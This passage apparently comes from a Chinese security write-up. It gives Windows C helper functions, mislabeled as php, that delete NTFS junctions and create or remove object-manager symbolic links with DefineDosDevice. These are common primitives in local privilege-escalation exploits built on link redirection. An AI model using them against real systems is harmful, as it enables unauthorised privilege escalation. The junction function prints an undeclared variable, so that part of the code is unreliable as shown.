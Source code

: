 ```php
BOOL DeleteJunction(LPCWSTR path) {
    REPARSE_GUID_DATA_BUFFER buffer = { 0 };
    BOOL ret;
    buffer.ReparseTag = IO_REPARSE_TAG_MOUNT_POINT;
    DWORD cb = 0;
    IO_STATUS_BLOCK io;

    HANDLE hDir;
    hDir = CreateFile(path, FILE_WRITE_ATTRIBUTES, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_FLAG_BACKUP_SEMANTICS | FILE_OPEN_REPARSE_POINT, NULL);

    if (hDir == INVALID_HANDLE_VALUE) {
        printf("[!] Failed to obtain handle on directory %ls.\n", path);
        printf("%d\n", GetLastError());
        return FALSE;
    }
    ret = DeviceIoControl(hDir, FSCTL_DELETE_REPARSE_POINT, &buffer, REPARSE_GUID_DATA_BUFFER_HEADER_SIZE, NULL, NULL, &cb, NULL);
    if (ret == 0) {
        printf("Error: %d\n", GetLastError());
        return FALSE;
    }
    else
    {
        printf("[+] Junction %ls delete!\n", dir);
        return TRUE;
    }
}
```

创建对象管理器符号链接相关代码：

```php
BOOL DosDeviceSymLink(LPCWSTR object, LPCWSTR target) {
    if (DefineDosDevice(DDD_NO_BROADCAST_SYSTEM | DDD_RAW_TARGET_PATH, object, target)) {
        printf("[+] Symlink %ls -> %ls created!\n", object, target);
        return TRUE;

    }
    else
    {
        printf("error :%d\n", GetLastError());
        return FALSE;

    }
}

BOOL DelDosDeviceSymLink(LPCWSTR object, LPCWSTR target) {
    if (DefineDosDevice(DDD_NO_BROADCAST_SYSTEM | DDD_RAW_TARGET_PATH | DDD_REMOVE_DEFINITION | DDD_EXACT_MATCH_ON_REMOVE, object, target)) {
        printf("[+] Symlink %ls -> %ls deleted!\n", object, target);
        return TRUE;
    }
    else
    {
        printf("error :%d\n", GetLastError());
        return FALSE;
    }
}
```
